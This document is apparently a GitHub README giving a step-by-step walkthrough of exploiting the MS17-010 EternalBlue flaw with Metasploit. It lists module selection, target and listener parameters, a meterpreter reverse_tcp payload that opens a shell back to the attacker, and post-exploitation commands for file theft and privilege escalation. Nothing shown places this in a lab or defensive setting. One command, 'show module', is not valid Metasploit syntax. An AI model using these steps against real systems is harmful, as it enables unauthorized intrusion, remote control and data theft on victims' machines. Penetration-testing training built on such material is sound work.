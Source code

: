 # Exploiting MS17-010 EternalBlue Vulnerability using Metasploit

## 1. Set Up Your Environment
Ensure you have Metasploit installed on your system. You can use Kali Linux, Parrot OS, or install Metasploit manually on your preferred OS.

## 2. Start Metasploit Framework
Open a terminal and launch Metasploit by typing:

```msfconsole```

Once inside Metasploit, you can search for the EternalBlue module using:

```show module```

## 3. Search for the MS17-010 EternalBlue Exploit Module
To search for a specific module:

```search ms17-010```

## 4. Select the Exploit Module
After finding the appropriate exploit module (e.g., exploit/windows/smb/ms17_010_eternalblue), select it by entering:

`use exploit/windows/smb/ms17_010_eternalblue`

## 5. Set Required Parameters

```Set RHOSTS <Target IP>```

Review other options that might need configuration using the `show options` command and set them accordingly. Common options include `LHOST`, `RPORT`, etc.
-----------------------------------------------------------------------------
| Parameter | Description                           | Example Usage         |
|-----------|---------------------------------------|-----------------------|
| RHOSTS    | Remote host(s) IP address(es)         | set RHOSTS 192.168.1.5|
| LHOST     | Local host listening IP for payloads  | set LHOST 192.168.1.2 |
| RPORT     | Remote port for the target service    | set RPORT 445         |
-----------------------------------------------------------------------------
## 6. Set Payload

After selecting the exploit module, you need to set the payload that will be delivered to the compromised system. This payload determines the action or code executed on the target after exploitation.
For example, to set the payload as a reverse shell for a Windows target:

```set payload windows/meterpreter/reverse_tcp```

## 7. Execute the Exploit
Once all necessary options are set, run the exploit by typing:

```exploit```

The exploit might take some time to run. Upon successful exploitation, Metasploit may display the meterpreter prompt, indicating a successful compromise of the target system.

## 8. Post-Exploitation Actions

Once the exploit succeeds and you gain access to the compromised system, you can perform various post-exploitation actions using the `meterpreter` prompt.

### Some useful post-exploitation commands:

- **System Commands**: Execute system commands on the target system using 

```shell```
  
Gather System Information: Retrieve system information like system details, user information, etc. using commands such as `sysinfo`, `getuid`, etc.

File Operations: Manipulate files on the compromised system using commands like `download`, `upload`, `ls`, `cd`, etc.

Privilege Escalation: Attempt to elevate privileges on the target system using modules like `getsystem`, `migrate`, etc.


